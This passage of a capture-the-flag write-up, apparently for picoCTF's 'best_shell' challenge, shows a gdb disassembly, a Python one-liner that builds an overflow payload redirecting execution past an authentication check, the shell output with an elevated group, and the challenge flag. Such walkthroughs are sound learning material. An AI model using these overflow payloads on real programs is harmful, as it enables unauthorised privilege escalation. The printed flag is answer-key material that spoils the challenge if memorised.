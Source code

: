 ```
(gdb) disas shell_handler
Dump of assembler code for function shell_handler:
   0x080489c6 <+0>: push   %ebp
   0x080489c7 <+1>: mov    %esp,%ebp
   0x080489c9 <+3>: sub    $0x28,%esp
   0x080489cc <+6>: movzbl 0x804b085,%eax
   0x080489d3 <+13>:    test   %al,%al
   0x080489d5 <+15>:    je     0x8048a06 <shell_handler+64>
   0x080489d7 <+17>:    call   0x8048600 <getegid@plt>
   0x080489dc <+22>:    mov    %eax,-0xc(%ebp)
   0x080489df <+25>:    mov    -0xc(%ebp),%eax
   0x080489e2 <+28>:    mov    %eax,0x8(%esp)
   0x080489e6 <+32>:    mov    -0xc(%ebp),%eax
   0x080489e9 <+35>:    mov    %eax,0x4(%esp)
   0x080489ed <+39>:    mov    -0xc(%ebp),%eax
   0x080489f0 <+42>:    mov    %eax,(%esp)
   0x080489f3 <+45>:    call   0x80486a0 <setresgid@plt>
   0x080489f8 <+50>:    movl   $0x8048ea3,(%esp)
   0x080489ff <+57>:    call   0x8048630 <system@plt>
   0x08048a04 <+62>:    jmp    0x8048a12 <shell_handler+76>
   0x08048a06 <+64>:    movl   $0x8048eab,(%esp)
   0x08048a0d <+71>:    call   0x8048620 <puts@plt>
   0x08048a12 <+76>:    leave
   0x08048a13 <+77>:    ret
End of assembler dump.
```

However we don't want to jump into it directly since it first checks to see if we've authenticated successfully, and we haven't. So we'll set the address at 0x080489d7, which is the call to getegid(). The exploit then is to rename a command with 32 "A"s, followed by the address 0x080489d7, and then call that renamed function. 

```
pico1139@shell:~$ python -c 'import struct; print "rename lol " + "A"*32 + struct.pack("<I", 0x80489d7) + "\n" + "A"*32 + struct.pack("<I", 0x80489d7)' > in.txt
```

We just need to pipe in.txt into best_shell to get our shell: 

```
pico1139@shell:~$ cd /home/best_shell/
pico1139@shell:/home/best_shell$ id
uid=11066(pico1139) gid=1017(picogroup) groups=1017(picogroup)
pico1139@shell:/home/best_shell$ (cat /home_users/pico1139/in.txt ; cat) | ./best_shell
>> >> id
uid=11066(pico1139) gid=1010(best_shell) groups=1017(picogroup)
cat flag.txt
give_shell_was_useful
```

The flag is **give_shell_was_useful**
